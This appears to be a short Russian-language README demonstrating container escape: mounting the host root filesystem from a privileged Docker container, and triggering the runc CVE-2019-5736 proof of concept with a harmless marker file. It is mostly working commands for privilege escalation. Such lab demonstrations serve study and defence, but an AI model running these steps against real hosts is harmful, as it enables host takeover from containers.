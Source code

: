 ## Повышаем привилегии на сервере с использованием docker

### Используем привилегированный режим
```
docker run -it --rm --privileged nginx bash

mkdir /mount
mount /dev/sda1 /mount
```
Убедимся, что мы действительно примонтировали корень файловой системы
```
ls /mount
```
Создадим нужный фаил
```
echo "PWND!" > /priv
```
### Используем уязвимость CVE-2019-5736 старой версии runc

В файле main.go на 17 строке меняем echo 'replace-me' на 
```
echo 'PWND!' > /CVE
```
Собираем контейнер
```
docker build -t cve-2019-5736-go .
```
Запускаем контейнер
```
docker run -d --name poc_go cve-2019-5736-go
```
Триггерим уязвимость
```
docker exec poc_go /bin/sh
```


